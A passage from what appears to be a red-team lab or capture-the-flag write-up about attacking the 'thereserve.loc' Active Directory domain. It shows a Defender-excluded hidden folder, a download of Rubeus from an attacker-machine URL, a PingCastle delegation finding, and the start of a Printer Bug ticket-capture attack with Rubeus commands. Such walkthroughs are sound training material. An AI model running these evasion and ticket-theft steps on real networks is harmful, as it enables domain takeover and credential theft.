		Members
		-----------------------------------------------------------------------------------
		svcBackups               svcEDR                   svcMonitor 		svcScanning
 	
	
As previously done on wrk1 I created an hidden folder excluded in Defender

	C:\Users\svcScanning\def-exc
then I downloaded in that folder Rubeus from my attacker machine, visiting http://10.200.89.21:1180/Rubeus.exe

#### Flags submission
I can submit flags 5 and 6

### Audit Active directory from Server1

I managed to transfer <b>PingCastle</b> to the server from my attacker machine. I decided to use [Pingcastle](https://www.pingcastle.com/download) since it is not flagged as malicious and perform very well. It produces a detailed report with explanation about found vulnerabilities, just run the exe. The report highlights two important things:
1. trusted delegation betwenn domain controller and the servers

		Object trusted to authentication for delegation			
	
		Name		Creation		Last logon		Pwd Last Set		Distinguished name
		CORPDC$	2022-09-07 20:58:08Z	2024-04-17 10:47:22Z	2022-09-07 20:58:08Z	CN=CORPDC,OU=Domain Controllers,DC=corp,DC=thereserve,DC=loc
		SERVER1$	2023-01-09 19:28:58Z	2024-04-17 08:33:28Z	2024-04-07 08:20:07Z	CN=SERVER1,OU=Servers,DC=corp,DC=thereserve,DC=loc
		SERVER2$	2023-01-09 19:49:16Z	2024-04-17 08:25:59Z	2024-04-07 08:19:41Z	CN=SERVER2,OU=Servers,DC=corp,DC=thereserve,DC=loc

2. the printer spooler service is remotely accessible from corpdc

As the report states:

<i>When there's an account with unconstrained delegation configured (which is fairly common) and the Print Spooler service running on a computer, you can get that computers credentials sent to the system with unconstrained delegation as a user. With a domain controller, the TGT of the DC can be extracted allowing an attacker to reuse it with a DCSync attack and obtain all user hashes and impersonate them. The Print Spooler service should be deactivated on domain controllers</i>
 
### Printer bug
In this scenario I could try to exploit the so-called feature, better to say bug, known as [Printer Bug](https://www.thehackersprint.com/kerberos-delegation-and-abuse-cases/unconstrained-delegation/printer-bug).
To succeed we need to force corpdc to authenticate against server1 (that we control), that is possible since the trusted authentication is configured between the two hosts.
So first of all on server1 I started Rubeus monitor to intercept TGT tickets:

		Rubeus.exe monitor /targetuser:DC$ /interval:10 /nowrap
		...
		v2.2.0
		
		[*] Action: TGT Monitoring
		[*] Target user     : CORPDC$@CORP.THERESERVE.LOC
		[*] Monitoring every 10 seconds for new TGTs
